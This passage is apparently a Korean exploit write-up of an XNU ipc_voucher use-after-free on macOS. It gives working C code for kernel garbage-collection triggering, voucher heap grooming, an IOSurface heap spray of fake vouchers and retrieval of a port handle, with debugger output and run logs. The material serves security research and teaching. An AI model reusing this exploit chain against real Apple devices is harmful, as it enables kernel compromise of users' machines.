com.apple.filesystems.apfs	945.220.38
com.apple.driver.AppleFileSystemDriver	3.0.1
com.apple.driver.AppleVirtIO	2.0.9
com.apple.filesystems.hfs.kext	407.200.4
com.apple.AppleFSCompression.AppleFSCompressionTypeDataless	1.0.0d1
com.apple.BootCache	40
com.apple.AppleFSCompression.AppleFSCompressionTypeZlib	1.0.0
com.apple.AppleSystemPolicy	1.0
com.apple.driver.AppleVmxnet3Ethernet	1.0.8
com.apple.driver.AppleAHCIPort	329.200.2
com.apple.private.KextAudit	1.0
com.apple.driver.AppleACPIButtons	6.1
com.apple.driver.AppleHPET	1.8
com.apple.driver.AppleRTC	2.0
com.apple.driver.AppleSMBIOS	2.1
com.apple.driver.AppleAPIC	1.7
com.apple.nke.applicationfirewall	190
com.apple.security.TMSafetyNet	8
com.apple.kext.triggers	1.0
com.apple.driver.DspFuncLib	282.10
com.apple.kext.OSvKernDSPLib	527
com.apple.driver.AppleGraphicsControl	3.25.6
com.apple.driver.AppleSMBusController	1.0.18d1
com.apple.iokit.IOSMBusFamily	1.1
com.apple.driver.AppleHDAController	282.10
com.apple.iokit.IOHDAFamily	282.10
com.apple.driver.IOPlatformPluginLegacy	1.0.0
com.apple.driver.X86PlatformPlugin	1.0.0
com.apple.driver.IOPlatformPluginFamily	6.0.0d8
com.apple.driver.Apple16X50Serial	3.2
com.apple.driver.AppleSMBusPCI	1.0.14d1
com.apple.iokit.IOAVBFamily	710.1
com.apple.plugin.IOgPTPPlugin	700.7
com.apple.iokit.IOEthernetAVBController	1.1.0
com.apple.driver.AppleSSE	1.0
com.apple.iokit.IOSurface	255.1
com.apple.iokit.IOBluetoothFamily	6.0.9f2
com.apple.AppleGPUWrangler	3.25.6
com.apple.AppleGraphicsDeviceControl	3.25.6
com.apple.iokit.IOSlowAdaptiveClockingFamily	1.0.0
com.apple.iokit.IONDRVSupport	530
com.apple.iokit.IOGraphicsFamily	530.12
com.apple.driver.AppleXsanScheme	3
com.apple.iokit.IOAHCIBlockStorage	301.200.2
com.apple.driver.AppleUSBAudio	315.6
com.apple.driver.usb.IOUSBHostHIDDevice	1.2
com.apple.iokit.IOAudioFamily	206.5
com.apple.vecLib.kext	1.2.0
com.apple.driver.AppleUSBHostMergeProperties	1.2
com.apple.driver.usb.cdc	5.0.0
com.apple.driver.usb.networking	5.0.0
com.apple.driver.usb.AppleUSBHostCompositeDevice	1.2
com.apple.iokit.IOSerialFamily	11
com.apple.filesystems.hfs.encodings.kext	1
com.apple.iokit.IOAHCIFamily	288
com.apple.driver.usb.AppleUSBEHCIPCI	1.2
com.apple.driver.usb.AppleUSBEHCI	1.2
com.apple.driver.usb.AppleUSBXHCIPCI	1.2
com.apple.driver.usb.AppleUSBXHCI	1.2
com.apple.driver.usb.AppleUSBHostPacketFilter	1.0
com.apple.iokit.IOUSBFamily	900.4.2
com.apple.driver.AppleEFINVRAM	2.1
com.apple.driver.AppleEFIRuntime	2.1
com.apple.iokit.IOHIDFamily	2.0.0
com.apple.security.quarantine	3
com.apple.security.sandbox	300.0
com.apple.kext.AppleMatch	1.0.0d1
com.apple.driver.DiskImages	493.0.0
com.apple.driver.AppleFDEKeyStore	28.30
com.apple.driver.AppleEffaceableStorage	1.0
com.apple.driver.AppleKeyStore	2
com.apple.driver.AppleUSBTDM	456.200.8
com.apple.driver.AppleMobileFileIntegrity	1.0.5
com.apple.kext.CoreTrust	1
com.apple.iokit.IOUSBMassStorageDriver	145.200.2
com.apple.iokit.IOSCSIBlockCommandsDevice	408.200.1
com.apple.iokit.IOSCSIArchitectureModelFamily	408.200.1
com.apple.iokit.IOStorageFamily	2.1
com.apple.driver.AppleCredentialManager	1.0
com.apple.driver.KernelRelayHost	1
com.apple.iokit.IOUSBHostFamily	1.2
com.apple.driver.usb.AppleUSBCommon	1.0
com.apple.driver.AppleBusPowerController	1.0
com.apple.driver.AppleSEPManager	1.0.1
com.apple.driver.IOSlaveProcessor	1
com.apple.iokit.IOReportFamily	47
com.apple.iokit.IOTimeSyncFamily	700.7
com.apple.iokit.IONetworkingFamily	3.4
com.apple.driver.AppleACPIPlatform	6.1
com.apple.driver.AppleSMC	3.1.9
com.apple.iokit.IOPCIFamily	2.9
com.apple.iokit.IOACPIFamily	1.4
com.apple.kec.pthread	1
com.apple.kec.Libm	1
com.apple.kec.corecrypto	1.0

EOF
Model: iMacPro1,1, BootROM 2022.100.22.0.0, 1 processor, Intel Core 2 Solo, 3.8 GHz, 2 GB, SMC 
Graphics: Display, 3 MB
Memory Module: DIMM 0, 2 GB, RAM, 0 MHz, QEMU, Unknown
Network Service: Ethernet, Ethernet, en0
Serial ATA Device: QEMU HARDDISK, 402.7 MB
Serial ATA Device: QEMU HARDDISK, 14.68 GB
Serial ATA Device: QEMU HARDDISK, 68.72 GB
USB Device: USB 2.0 Bus
USB Device: QEMU USB Mouse
USB Device: QEMU USB Keyboard
Thunderbolt Bus: 
```

# Exploit

## 1. Garbage Collection과 함께하는 힙 스프레이!

우선 `ipc_voucher` 구조체를 다시 살펴보면, 다음과 같다.

```cpp
/*
 * IPC Voucher
 *
 * Voucher는 한 번 생성되면 변경할 수 없는(immutable) 참조 카운트 기반의 객체로,
 * 특정 자원 관리자 속성 값들에 대한 인덱스 집합을 나타냅니다
 * (이 속성 값들 자체도 참조 카운트를 가짐).
 */
struct ipc_voucher {
  iv_index_t    iv_hash;         /* 체크섬 해시 */
  iv_index_t    iv_sum;          /* 값들의 체크섬 */
  os_refcnt_t   iv_refs;         /* 참조 카운트 */
  iv_index_t    iv_table_size;   /* 바우처 테이블의 크기 */
  iv_index_t    iv_inline_table[IV_ENTRIES_INLINE]; /* 인라인 테이블 */
  iv_entry_t    iv_table;        /* 바우처 속성 항목 테이블 */
  ipc_port_t    iv_port;         /* 바우처를 나타내는 포트 */
  queue_chain_t iv_hash_link;    /* 해시 체인에서의 연결 링크 */
};
```

우리는 `iv_refs` 필드를 볼 수 있는데, 이 값을 통해서 해당 voucher를 free시킬건지 말건지 결정한다.

우리가 poc를 통해 이 필드를 감소시켜 free시키게 만든 참조 카운트라고 할 수 있다.

중요한 점은 `iv_port`에 있는 `ipc_port_t`에 대한 포인터이다.

 이 `ipc_port_t` 구조체는 일반적인 Mach 포트의 커널 표현을 의미하는데, 
이 경우 `ipc_voucher`는 `ipc_port_t`를 필드로 구현하면서 자신의 일부 속성들(예: `iv_table`과 `iv_inline_table`)을 구현한다.

**또 다른 중요한 점은 수신 권한(receive right)이 없다는 것이다.** 
보통 Mach에서는 포트가 전송 권한과 수신 권한을 가질 수 있으며, 포트에 전송 권한이 있으면 해당 포트를 통해 메시지를 보낼 수 있고, 포트에 수신 권한이 있으면 해당 포트를 통해 메시지를 받을 수 있는데

**위 경우는 전송 권한만 가진다.**

즉, `ipc_voucher` 구조체에서 우리에게 중요한 필드는 `iv_refs`와 `iv_port`뿐이다.
나머지 필드들은 전역 바우처 객체 리스트 관리나 바우처가 표현하는 속성 저장과 관련된 것이며, 중요하지 않다.

앞서 살펴본 취약점을 통해 voucher를 해제시킬 수 있다면, 
"힙 스프레이" 기법을 통해 공격자가 제어하는 데이터를 이 위치에 덮어쓸 수 있게 만들 수 있을 것이다.

한마디로 커널 힙에 속하는 해제된 바우처를 우리의 데이터로 덮어쓰는 것을 말한다.

만약 힙 스프레이가 성공적으로 이루어졌다면,
스레드에 있는 바우처 포인터가 우리의 임의의 바우처 구조체를 가리키게 되며, 우리는 `thread_get_mach_voucher` 함수를 사용하여 해당 바우처에 대한 사용자 영역 핸들을 얻을 수 있을 것이다.

그런 다음, 이 핸들을 Mach API 함수를 통해서 새로운 프리미티브를 만들 수도 있을 것이다.

따라서 힙 스프레이를 수행할 때, 우리는 이 `ipc_voucher` 구조체들을 커널 힙에 스프레이하고, 해제된 voucher 구조체를 임의의 구조체로 교체하는데,

주요 목표는 `iv_port` 필드를 제어하고 이를 공격자가 제어하는 `ipc_port`로 가리키게 만드는 것이 되겠다.

### Garbage Collection

다만, 스프레이를 하는데 앞서 해제한 뒤에는 가바지 컬렉션을 진행시켜주어야 한다.

kalloc은 우리가 UAF한 ipc_voucher 구조체를 할당하는 데 사용되는 XNU 할당자로, 객체를 할당시키기 위해 "존(zone)"이라는 일련의 영역을 사용한다. 이러한 존은 특정 크기나 유형의 객체만을 포함하는 힙 메모리의 구역이다. 이를 테면 kalloc.32 존은 크기가 32바이트 이하인 객체들을 포함하는 것이다. 이러한 존들은 터미널에서 "zprint" 명령어를 사용하여 확인할 수 있다.

```c
seos-iMac-Pro:~ seo$ sudo zprint
                            elem         cur         max        cur         max         cur  alloc  alloc    
zone name                   size        size        size      #elts       #elts       inuse   size  count
-------------------------------------------------------------------------------------------------------------
kalloc.16                     16       1640K       1751K     104960      112100       82866     4K    256  C
kalloc.32                     32       2168K       2627K      69376       84075       22966     4K    128  C
kalloc.48                     48       1064K       2627K      22698       56050       18639     4K     85  C
kalloc.64                     64       1256K       1751K      20096       28025       18804     4K     64  C
kalloc.80                     80        608K       1167K       7782       14946        5549     4K     51  C
kalloc.96                     96        256K        307K       2730        3280        2553     8K     85  C
kalloc.128                   128        988K       1167K       7904        9341        7855     4K     32  C
kalloc.160                   160        176K        205K       1126        1312        1082     8K     51  C
kalloc.192                   192        276K        307K       1472        1640        1197    12K     64  C
kalloc.224                   224        320K        410K       1462        1874        1420    16K     73  C
kalloc.256                   256        200K        230K        800         922         776     4K     16  C
kalloc.288                   288        500K        512K       1777        1822        1717    20K     71  C
kalloc.368                   368        192K        162K        534         450         493    32K     89  C
kalloc.400                   400         80K         67K        204         172          72    20K     51  C
kalloc.512                   512       1000K       1167K       2000        2335         596     4K      8  C
kalloc.576                   576         20K         20K         35          36          19     4K      7  C
kalloc.768                   768         84K         91K        112         121         101    12K     16  C
kalloc.1024                 1024        360K        518K        360         518         350     4K      4  C
kalloc.1152                 1152         72K         91K         64          81           5     8K      7  C
kalloc.1280                 1280        100K        101K         80          81          23    20K     16  C
kalloc.1664                 1664         56K         42K         34          25          25    28K     17  C
kalloc.2048                 2048        228K        230K        114         115         112     4K      2  C
kalloc.4096                 4096      70584K     101004K      17646       25251         213     4K      1  C
kalloc.6144                 6144        108K        136K         18          22          16    12K      2  C
kalloc.8192                 8192       1160K       1556K        145         194          24     8K      1  C
...
ipc.ports                    168       1776K       8328K      10825       50761        6214    12K     73  C
...
**ipc.vouchers                  80          8K       1260K        102       16128          43     4K     51  C**
ipc.voucher.attr.control$     56          4K          4K         73          73           6     4K     73  C
....
```

여기서 우리는 여러 크기의 kalloc 존, ipc.ports 등등 특별한 존이 존재한다. 

**ipc_voucher는 ipc.vouchers 존에 속한다.** 한 번 해제된 바우처 객체에 대한 덩글링 포인터를 얻으면, 그 바우처 객체를 다른 것으로 재할당할 수 있으나, 이는 간단하지 않다. 바우처는 일반적으로 자체 영역인 `ipc_vouchers`에 존재하는데, 이는 `osfmk/ipc/ipc_voucher.c`에서 `zinit` 호출이 바우처를 위한 새 영역을 할당하는 것으로 확인할 수 있다.

```cpp
    File: ./osfmk/ipc/ipc_voucher.c
    198: void
    199: ipc_voucher_init(void)
    200: {
    201: 	natural_t ipc_voucher_max = (task_max + thread_max) * 2;
    202: 	natural_t attr_manager_max = MACH_VOUCHER_ATTR_KEY_NUM_WELL_KNOWN;
    203: 	iv_index_t i;
    204: 
    205: 	ipc_voucher_zone = zinit(sizeof(struct ipc_voucher),
    206: 				 ipc_voucher_max * sizeof(struct ipc_voucher),
    207: 				 sizeof(struct ipc_voucher),
    208: 				 "ipc vouchers");
    209: 	zone_change(ipc_voucher_zone, Z_NOENCRYPT, TRUE);
    210: 
    211: 	
    216: 
```

**ipc.vouchers** 존에 임의의 데이터를 스프레이할 수 있는 함수가 없기 때문에, 먼저 해당 페이지를 할당자에게 반환하고, 그 다음에 이를 kalloc 존에 다시 할당하여 스프레이할 수 있어야 한다. 이는 GC(가비지 컬렉션) 메커니즘을 통해 수행할 수 있다. GC를 트리거하면 사용되지 않는 페이지가 할당자에게 반환된다.

정리하자면, 바우처의 해제된 메모리는 해당 zone의 자유 목록에 배치되고, 새 바우처가 생성될 때 다시 할당된다. 그러므로 다른 객체로 재할당하려면, 유일한 실현 가능한 방법은 zone garbage collection을 시작하는 것이다. 이 작업은 바우처의 해제된 메모리를 zone map에 이동시킨 후, 그 메모리를 다른 객체로 재할당하는 방식이 되겠다. 

iOS 10 이하에서는 이 메커니즘을 Mach 호출을 통해 수행할 수 있었는데, iOS 11이후부터는 이 기능이 제거되었기에 수동으로 다양한 방법을 통해 트리거해야 한다. Siguza의 [v0rtex 분석](https://siguza.github.io/v0rtex/)에서는 이를 수행하는 방법 중 하나가 공개됐는데 아래와 같다.

> […] 여전히 모든 존을 반복하면서 각 존에서 100MB 정도를 할당하고 이후 해제하는 방식으로 가비지 컬렉션을 트리거할 수 있어야 하며, 이 과정에 걸리는 시간을 측정하면 가비지 컬렉션이 중요한 스파이크로 나타날 것입니다.
> 

따라서 다음 함수가 사용된다. 여기서는 kalloc.16384 존에 전송될 메시지를 할당하고, 이를 `send_kalloc_message` 함수를 통해 256번 전송하며, 각 전송에 걸리는 시간을 기록한다. 
만약 이 메시지들을 전송하는 데 2,000,0000 나노초(20밀리초) 이상이 걸린다면, 우리는 GC가 트리거되었다고 가정할 수 있다. (걸리는 시간은 환경에 따라 다름; iOS 기기의 경우: 1,000,000 나노초(1밀리초))

```cpp
void trigger_gc_please()
{
    ...
    uint32_t body_size = message_size_for_kalloc_size(16384) - sizeof(mach_msg_header_t); // 1024
    uint8_t *body = malloc(body_size); 
    memset(body, 0x41, body_size);
    
    for (int i = 0; i < gc_ports_cnt; i++)
    {
        uint64_t t0, t1;

        t0 = mach_absolute_time();
        gc_ports[i] = send_kalloc_message(body, body_size);
        t1 = mach_absolute_time();
        
        if (t1 - t0 > 20000000) 
        {
            INFO("got gc at %d -- breaking, t1-t0: %llu\n", i, t1 - t0);
            gc_ports_max = i;
            break;
        }
    }

    ...

    sched_yield();
    sleep(1);
}
```

GC 트리거가 실패하면 페이지가 해제되지 않으며, 우리의 힙 스프레이가 실패하게 되어 전체 익스플로잇이 실패한다. GC는 비동기적으로 작동하므로, GC가 완료되었는지 확인하기 위해 일정 시간을 기다려야 한다.
따라서 이 함수의 에필로그에서 `sched_yield`와 `sleep` 호출이 포함되었다.

GC에서 중요한 요소는 주어진 페이지에 있는 모든 객체가 해제된 후에야 페이지 자체가 해제될 수 있다는 점이다. 즉, 우리의 대상 UAF 바우처와 같은 페이지에 하나의 할당도 존재할 수 없다는 것이다. 
이를 해결하기 위해, 대상 "p1" 전에 0x2000번 포트가 할당하고, 그 후에 0x1000번 포트가 추가로 할당한다.

다음 코드를 참조하길 바란다.

```cpp
...
    /* create a few vouchers used to trigger the bug */
    mach_voucher_attr_recipe_data_t atm_data = 
    {
        .key = MACH_VOUCHER_ATTR_KEY_ATM,
        .command = 510
    };

    mach_port_t p2;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p2);
    
    mach_port_t p3;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p3);

    /* allocate 0x2000 vouchers to alloc some new fresh pages */
    for (int i = 0; i < sizeof(before) / sizeof(mach_port_t); i++)
    {
        ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &before[i]);
    }
    
    /* alloc our target uaf voucher */
    mach_port_t p1;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p1);
    
    /* allocate 0x1000 more vouchers */
    for (int i = 0; i < sizeof(after) / sizeof(mach_port_t); i++)
    {
        ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &after[i]);
    }

    /*
        theoretically, we should now have 3 blocks of memory (roughly) as so:
        |--------------------|-------------|------------------|
        |     ipc ports      | target port |  more ipc ports  |
        |--------------------|-------------|------------------| 
                             ^             ^
                              page with only our controlled ports
                              
바라건대 우리의 목표 포트는 이제 우리가 제어하는 포트들만 포함하는 페이지에 할당되어 있을 것이다. 이는 우리가 모든 포트를 해제할 때 해당 페이지의 모든 할당이 해제되고, GC를 트리거하면 그 페이지가 ipc_ports 존에서 반환되어 kalloc에서 재사용된다는 뜻이다. 이로써 IOSurface를 통해 다른 kalloc 영역(예: kalloc.1024)에 가짜 voucher들을 스프레이할 수 있고, 그 결과 voucher의 댕글링 포인터가 우리의 할당 중 하나와 겹치게 된다.
    */
```

### IOSurface를 활용한 힙 스프레이

모든 것이 계획대로 진행되었다면, 이 시점에서 GC가 트리거되어 페이지가 할당 풀로 반환될 것이다. 
그런 다음 우리는 가짜 바우처를 커널로 전송하고 해제된 바우처를 교체하기 위해 힙 스프레이를 계속 진행할 수 있다. 이를 위해 "IOSurface" kext(커널 확장)에서 구현된 IOKit UserClient를 사용할 수 있다.  IOKit은 드라이버와 확장을 처리하는 커널 인터페이스이며, UserClient는 사용자가 커널 확장에 명령을 보낼 수 있도록 하는 객체이다. IOSurface는 그래픽 버퍼의 처리 및 계산을 위한 kext이지만, 두 가지 이유로 인해 우리에게 훌륭한 힙 스프레이 프리미티브를 제공한다.

첫째, IOSurface(특히 "set value" 메서드)는 배열(OSArray), 딕셔너리(OSDictionary), 문자열(OSString) 등과 같은 객체를 포함하는 인코딩된 plist(속성 목록)를 제공할 수 있게 해준디. 이 객체들 안에 우리는 완전히 임의의 데이터를 넣을 수 있다(예: 중첩된 타입, 즉 배열 안에 딕셔너리). 

둘째, IOSurface UserClient는 앱 샌드박스에서 접근 가능하며, 권한 부여나 권한 검사 또는 샌드박스에서의 차단이 없다. 데이터를 스프레이하기 위해, 우리는 OSString으로 구성된 서페이스(surface)를 만들 수 있다. 하나의 서페이스(surface)를 설정한 후, 하나의 OSString을 스프레이하려는 항목으로 포함하는 딕셔너리가 포함된 배열을 사용한다. OSString은 크기가 얼마든지 될 수 있지만, 우리는 전체 페이지 크기만큼 데이터를 채우고자 한다. 4k 장치에서는 페이지 크기가 0x1000(4096)이고, 16k 장치에서는 0x4000(16,384)이다. OSString의 "문자열" 부분 때문에, 우리의 데이터는 NULL 바이트로 종료되어야 하므로, 크기 계산 시 이를 고려해야 한다. 

아래 코드는  OSUnserializeBinary XML Spraying 원리를 이용하여 서페이스에 설정될 데이터(따라서 커널 메모리에 스프레이될 데이터)를 설정하며, bcopy 루프는 각 OSString에 가짜 ipc_vouchers를 채운다.

```cpp
int main(int argc, char *argv[], char *envp[]) {
		IOSurface_init();
...
    /* set up our IOSurface data for spraying */
#define FILL_MEMSIZE 0x4000000
    int spray_qty = FILL_MEMSIZE / pagesize; /* # of pages to spray */ 
    
    int spray_size = (5 * sizeof(uint32_t)) + (spray_qty * ((4 * sizeof(uint32_t)) + pagesize));
    uint32_t *spray_data = malloc(spray_size); // header + (spray_qty * (item_header + pgsize))

    build_IOSurface_spray_data(&fake_voucher, sizeof(fake_ipc_voucher_t), spray_qty, spray_data, spray_size);
    ...
}

//iosurface.c
int build_IOSurface_spray_data(void *data, size_t size, int spray_qty, uint32_t *spray_data, int spray_size) {
    /* set up our IOSurface data for spraying */
    bzero((void *)spray_data, spray_size);
    
    uint32_t *spray_cur = spray_data;
    
   /*
        +-> Surface
          +-> Array
            +-> Dictionary
              +-> OSString 
              +-> OSString
              +-> OSString 
                etc (spray_qty times)...
   */

    *(spray_cur++) = IOSurface_id;
    *(spray_cur++) = 0x0;
    *(spray_cur++) = kOSSerializeMagic;
    *(spray_cur++) = kOSSerializeEndCollection | kOSSerializeArray | 1;
    *(spray_cur++) = kOSSerializeEndCollection | kOSSerializeDictionary | spray_qty;
    for (int i = 0; i < spray_qty; i++)
    {
        *(spray_cur++) = kOSSerializeSymbol | 5;
        *(spray_cur++) = transpose(i);
        *(spray_cur++) = 0x0;
        *(spray_cur++) = (i + 1 >= spray_qty ? kOSSerializeEndCollection : 0) | kOSSerializeString | (pagesize - 1);
        
        for (uintptr_t ptr = (uintptr_t)spray_cur, end = ptr + pagesize; 
             ptr + size <= end; 
             ptr += size)
        {
            bcopy((const void *)data, (void *)ptr, size);
        }
        
        spray_cur += (pagesize / sizeof(uint32_t));
    }

    return 0;
}
```


그런 다음 사용자 클라이언트에 호출하여 제공된 데이터를 Surface에 설정할 수 있다:

```cpp
...
    trigger_gc_please(); 

    ret = IOSurface_set_value(spray_data, spray_size);
    INFO("IOSurface_set_value ret: %d\n", ret);
    if(ret == false) exit(1);
...
```

이 작업이 제대로 진행되었다면, 해제된 ipc_voucher는 이제 우리의 가짜 바우처로 교체되었고, 우리는 이를 힙 스프레이를 통해 커널 메모리에 복사한 것이다. 

```c
(lldb) p *(ipc_voucher_t)0xffffff8011049c80
(ipc_voucher) $1 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 100)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = nullptr
  iv_hash_link = {
    next = nullptr
    prev = nullptr
  }
}
```

이는 이제 우리의 스레드에 저장된 포트가 가짜 `ipc_voucher`를 가리키게 되며, 그 가짜 `ipc_voucher`는 사용자 영역에 할당된 `fakeport`를 가리키게 된다는 것을 의미한다. 

이제 `thread_get_mach_voucher` 호출을 통해 이 바우처/포트에 대한 핸들을 얻으려고 한다. 

이전에 우리는 대상 "p1" 전에 0x2000번 포트가 할당되고, 그 후에 0x1000번 포트가 추가로 할당했다.
따라서 처음에 preport[0x1000]에 MACH_PORT_RIGHT_RECEIVE 권한으로 IPC space에서 새로운 Mach 포트 이름을 할당하고,
**`thread_get_mach_voucher` 호출을 통해 이 바우처/포트에 대한 핸들을 얻은 다음,** 
다시한번 같은 권한으로 postport[0x2000]에 Mach 포트 이름을 할당한다.

```c
    mach_port_t real_port_to_fake_voucher = MACH_PORT_NULL;

    /* 
        alloc'ing ports either side of the kport_t that thread_get_mach_voucher 
        creates will give us much better success rate for guessing the 
        heap address of our pipe buffer-based port 

        someone once said iOS's heap randomization was weak
                            i didn't listen
            then i realised
                    iOS's heap randomization is weak
                                                    ...i should've listened
    */  

    for (int i = 0; i < sizeof(preport) / sizeof(mach_port_t); i++)
    {
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &preport[i]);
    }

    /* fingers crossed we get a userland handle onto our 'fakeport' object */
    //printf("pauseing...\n");
    //getchar();
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    INFO("port: 0x%x\n", real_port_to_fake_voucher);

    //printf("thread_get_mach_voucher called, port printed...\n");
    //getchar();

    for (int i = 0; i < sizeof(postport) / sizeof(mach_port_t); i++)
    { 
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &postport[i]);
    }
```

핸들을 얻어오는데 성공했다면, ipc_voucher에 힙 스프레이하는데 성공한것이다!

```c
seos-iMac-Pro% ./exp  
[*] page size: 0x1000, kr=(os/kern) successful
[*] IOSurface_init success, IOSurface_id=0x1
[*] total pipes created: 1280
[*] got gc at 15 -- breaking, t1-t0: 23916761
[*] IOSurface_set_value ret: 1
[*] port: 0x114607
```

이제 `IOSurfaceRootUserClient::get_value()` 래퍼 함수를 이용하여 스프레이된 데이터들 중에 “`thread_get_mach_voucher` → `convert_voucher_to_port` 함수가 호출되면서 생성된 바우처 포트 커널 주소”를 찾는다.

```c
    uint8_t *response = (uint8_t *)malloc(spray_size);
    size_t sz = spray_size;

    int spray_index = 0;
    int port_index = 0;
    fake_ipc_voucher_t *target_voucher = NULL;

    INFO("getting responses...\n");
    for (int s = 0; s < spray_qty; s++)
    {
        bzero((void *)response, spray_size);

        struct IOSurfaceValueArgs_string request = {
            .surface_id = IOSurface_id,
            ._out1 = 0x0,
            .string_data = transpose(s),
            .null = 0
        }; 

        ret = IOSurface_get_value((struct IOSurfaceValueArgs *)&request, sizeof(request), response, &sz);
        if(ret == false) exit(1);

        uint8_t *cursor = response + 0x10;

        for (int j = 0; j < pagesize / sizeof(fake_ipc_voucher_t); j++)
        {
            fake_ipc_voucher_t *found_voucher = (fake_ipc_voucher_t *)(cursor + (j * sizeof(fake_ipc_voucher_t)));

            if (found_voucher->iv_port != 0)
            {
                INFO("found voucher!! s: %d, j: %d\n", s, j);
                INFO("port: 0x%llx\n", found_voucher->iv_port);
                INFO("refs: %d\n", found_voucher->iv_refs);

                getchar();
                
                spray_index = s;
                port_index = j;
                target_voucher = found_voucher;

                goto found_voucher_lbl;
            }
        }
    }

    if (target_voucher == NULL)
    {
        ERROR("failed to find the target voucher :-(\n");
        return -1;
    }

found_voucher_lbl:;
...
```

```c
[*] WE REALLY POSTED UP ON THIS BLOCK -- part 1 of #alwaysstayposted
[*] getting responses...
[*] found voucher!! s: 743, j: 39
[*] port: 0xffffff8017e3c610
[*] refs: 101
```


### **`thread_get_mach_voucher` 호출을 통해 이 바우처/포트에 대한 핸들을 얻을 수 있었던 이유는 무엇일까?**

실제 커널 디버깅을 해보면서 알아보자.

분석 지점은 힙 스프레이 이후에 `thread_get_mach_voucher` 함수 호출 전과 후로 나뉘며,

```c
/* fingers crossed we get a userland handle onto our 'fakeport' object */
    printf("pauseing...\n");
    getchar();
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    INFO("port: 0x%x\n", real_port_to_fake_voucher);

    printf("thread_get_mach_voucher called, port printed...\n");
    getchar();
```

해당 함수는 사용자 공간에서 바우처 참조를 읽고 쓸 수 있도록 하는데, 이 함수에 대해서 자세히 살펴보려면 **MIG** 생성 코드를 살펴봐야 한다.

해제된 바우처를 다른 객체로 재할당했다고 가정하면, `thread_get_mach_voucher` 호출은 커널 패닉 없이 성공해야 한다. 커널 내에서 호출되는 `thread_get_mach_voucher` 함수는 2688번째 라인에 있으며, 이 함수는 `ipc_voucher_reference(voucher)`를 호출하는데, 이는 `iv_refs` 필드가 바우처에 대해 유효하다는 것을 의미한다.

```cpp
    File: ./BUILD/obj/RELEASE_X86_64/osfmk/RELEASE/mach/thread_act_server.c
    2597: /* Routine thread_get_mach_voucher */
    2598: mig_internal novalue _Xthread_get_mach_voucher
    2599: 	(mach_msg_header_t *InHeadP, mach_msg_header_t *OutHeadP)
    2600: {
    2601: 
    2602: #ifdef  __MigPackStructs
    2603: #pragma pack(4)
    2604: #endif
    2605: 	typedef struct {
    2606: 		mach_msg_header_t Head;
    2607: 		NDR_record_t NDR;
    2608: 		mach_voucher_selector_t which;
    2609: 		mach_msg_trailer_t trailer;
    2610: 	} Request __attribute__((unused));
    2611: #ifdef  __MigPackStructs
    2612: #pragma pack()
    2613: #endif
    2614: 	typedef __Request__thread_get_mach_voucher_t __Request;
    2615: 	typedef __Reply__thread_get_mach_voucher_t Reply __attribute__((unused));
    2616: 
    2617: 	/*
    2618: 	 * typedef struct {
    2619: 	 * 	mach_msg_header_t Head;
    2620: 	 * 	NDR_record_t NDR;
    2621: 	 * 	kern_return_t RetCode;
    2622: 	 * } mig_reply_error_t;
    2623: 	 */
    2624: 
    2625: 	Request *In0P = (Request *) InHeadP;
    2626: 	Reply *OutP = (Reply *) OutHeadP;
    2627: #ifdef	__MIG_check__Request__thread_get_mach_voucher_t__defined
    2628: 	kern_return_t check_result;
    2629: #endif	/* __MIG_check__Request__thread_get_mach_voucher_t__defined */
    2630: 
    2631: #if	__MigKernelSpecificCode
    2632: #if	UseStaticTemplates
    2633: 	const static mach_msg_port_descriptor_t voucherTemplate = {
    2634: 		/* name = */		MACH_PORT_NULL,
    2635: 		/* pad1 = */		0,
    2636: 		/* pad2 = */		0,
    2637: 		/* disp = */		17,
    2638: 		/* type = */		MACH_MSG_PORT_DESCRIPTOR,
    2639: 	};
    2640: #endif	/* UseStaticTemplates */
    2641: 
    2642: #else
    2643: #if	UseStaticTemplates
    2644: 	const static mach_msg_port_descriptor_t voucherTemplate = {
    2645: 		/* name = */		MACH_PORT_NULL,
    2646: 		/* pad1 = */		0,
    2647: 		/* pad2 = */		0,
    2648: 		/* disp = */		19,
    2649: 		/* type = */		MACH_MSG_PORT_DESCRIPTOR,
    2650: 	};
    2651: #endif	/* UseStaticTemplates */
    2652: 
    2653: #endif /* __MigKernelSpecificCode */
    2654: 	kern_return_t RetCode;
    2655: 	thread_act_t thr_act;
    2656: 	ipc_voucher_t voucher;
    2657: 
    2658: 	__DeclareRcvRpc(3625, "thread_get_mach_voucher")
    2659: 	__BeforeRcvRpc(3625, "thread_get_mach_voucher")
    2660: 
    2661: #if	defined(__MIG_check__Request__thread_get_mach_voucher_t__defined)
    2662: 	check_result = __MIG_check__Request__thread_get_mach_voucher_t((__Request *)In0P);
    2663: 	if (check_result != MACH_MSG_SUCCESS)
    2664: 		{ MIG_RETURN_ERROR(OutP, check_result); }
    2665: #endif	/* defined(__MIG_check__Request__thread_get_mach_voucher_t__defined) */
    2666: 
    2667: #if	UseStaticTemplates
    2668: 	OutP->voucher = voucherTemplate;
    2669: #else	/* UseStaticTemplates */
    2670: #if __MigKernelSpecificCode
    2671: 	OutP->voucher.disposition = 17;
    2672: #else
    2673: 	OutP->voucher.disposition = 19;
    2674: #endif /* __MigKernelSpecificCode */
    2675: #if !(defined(KERNEL) && defined(__LP64__))
    2676: 	OutP->voucher.pad1 = 0;
    2677: #endif
    2678: 	OutP->voucher.pad2 = 0;
    2679: 	OutP->voucher.type = MACH_MSG_PORT_DESCRIPTOR;
    2680: #if defined(KERNEL)
    2681: 	OutP->voucher.pad_end = 0;
    2682: #endif
